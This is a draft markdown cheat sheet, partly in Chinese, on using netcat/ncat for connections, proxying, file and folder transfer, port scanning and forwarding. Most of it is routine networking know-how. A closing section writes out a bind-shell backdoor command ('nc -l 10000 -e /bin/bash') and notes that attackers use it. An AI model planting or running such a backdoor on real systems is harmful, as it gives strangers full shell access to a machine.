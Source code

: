 ```yaml
---
title: "nc 网络调试速查"
date: 2023-11-21T12:40:52+08:00
draft: true
sidebar_position: 11
---
```


1) Basic Connection Establishment
Ncat or nc simplifies the process of creating basic connections between systems. Use the following command to establish a connection between a client and a server:

$ ncat -l port_number

Where:

-l : Bind and listen for incoming connections on the port_number.
For example,

$ nc -l 8080   //Server
$ nc localhost 8080 //Client
This basic example allow server to listen on port 8080 and clients can connect to it.

2) Connect to a Remote System
To connect to a remote system with nc, execute the following command,

$ nc -v IP_address port_number

or

$ nc -v FQDN

Let’s take an example,

$ nc -v 192.168.1.248 80
or 
$ nc -v www.linuxtechi.com 443
Now a connection to server with IP address 192.168.1.248 will be made at port 80 & we can now send instructions to server. Like we can get the complete page content with


GET / HTTP/1.1

or get the page name,

GET / HTTP/1.1

or we can get banner for OS fingerprinting with the following,

HEAD / HTTP/1.1

This will tell what software is being used to run the web Server.

Alternate way to check,

$ echo -e "GET / HTTP/1.1\nHost: 192.168.1.248\n\n" | nc 192.168.1.248 80
3) Connecting to UDP Ports
By default , the nc utility makes connections only to TCP ports. But we can also make connections to UDP ports, for that we can use option ‘u’,

$ ncat -l -u 1234
Now our system will start listening a udp port ‘1234’, we can verify this using below netstat command,

$ netstat -tunlp | grep 1234
udp 0 0 0.0.0.0:1234 0.0.0.0:* 10713/nc
$
netstat-udp-connection-check-linux

Let’s assume we want to send or test UDP port connectivity to a specific remote host, then use the following command,

$ ncat -v -u {host-ip} {udp-port}

$ nc -v -u 192.168.105.150 53
Ncat: Version 7.91 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.105.150:53.
4) NC as chat tool
NC allows for real-time chat between two systems. Start a chat server:

$ ncat -l -p 9090
On remote client machine, run

$ ncat 192.168.1.248 9090
Than start sending messages & they will be displayed on server terminal.

NC-Chat-Server-Linux

5) NC as a proxy
NC can also be used as a proxy with a simple command. Let’s take an example,

$ ncat -l 8080 | ncat 192.168.1.200 80
Now all the connections coming to our server on port 8080 will be automatically redirected to 192.168.1.200 server on port 80. But since we are using a pipe, data can only be transferred & to be able to receive the data back, we need to create a two way pipe. Use the following commands to do so,

$ mkfifo 2way
$ ncat -l 8080 0&lt;2way | ncat 192.168.1.200 80 1&gt;2way

Now you will be able to send & receive data over nc proxy.

6) Transfer Files Using nc
NC can also be used to transfer or copy the files from one system to another, though it is not recommended & mostly all systems have ssh/scp installed by default. But none the less if you have come across a system with no ssh/scp, you can also use nc as last ditch effort.

Start with machine on which data is to be received & start nc is listener mode,

$ ncat -l  8080 > file.txt
Now on the machine from where data is to be copied, run the following command,

$ ncat 192.168.1.100 8080 --send-only < data.txt
Here, data.txt is the file that has to be sent. –send-only option will close the connection once the file has been copied. If not using this option, than we will have press ctrl+c to close the connection manually.

We can also copy entire disk partitions using this method, but it should be done with caution.

7) Port Scanning
You can use nc to scan a range of ports on a target system to check for open services. For instance:
```
$ nc -zv <hostname or IP address> <start_port>-<end_port>
```

$ nc -zv 192.168.1.248 80-100   # range
$ nc -zv example.com 443        # Particular port$ nc -zv example.com 80 443     # Multiple Port
8) Port Forwarding
We can also use NC for port forwarding with the help of option ‘c’ , syntax for accomplishing port forwarding is,

$ ncat -u -l  80 -c  'ncat -u -l 8080'
Now all the connections for port 80 will be forwarded to port 8080.

9) Set Connection Timeouts
Listener mode in ncat will continue to run & would have to be terminated manually. But we can configure timeouts with option ‘w’,

$ ncat -w 10 192.168.1.248 8080
This will cause connection to be terminated in 10 seconds, but it can only be used on client side & not on server side.

10) Force Server to Stay Up
When client disconnects from server, after sometime server also stops listening. But we can force server to stay connected & continuing port listening with option ‘k’. Run the following command,

$ ncat -l -k 8080
Now server will stay up, even if a connection from client is broken.

Additional Example

Remote Command Execution via nc
NC command can also be used to create backdoor to your systems & this technique is actually used by hackers a lot. We should know how it works in order to secure our system. To create a backdoor, the command is,

$ nc -l 10000 -e /bin/bash
‘e‘ flag attaches a bash to port 10000. Now a client can connect to port 10000 on server & will have complete access to our system via bash.

$ nc 192.168.1.100 10000

nc 传文件（方法1）

nc -l 9995 >zabbix.rpm
nc 10.0.1.162 9995 < zabbix-release-2.4-1.el6.noarch.rpm

nc 传文件（方法2）
nc -l 9992 &lt;test.mv
nc 10.0.1.162 9992 &gt;test2.mv

nc 传文件夹
管道后面最后必须是 - ，不能是其余自定义的文件名。（-是tar命令的一个选项，表示tar应该读取从标准输入（stdin）传入的数据。）
nc -l 9995 | tar xfvz -
tar cfz - * | nc 10.0.1.162 9995

todo: https://zhuanlan.zhihu.com/p/270185285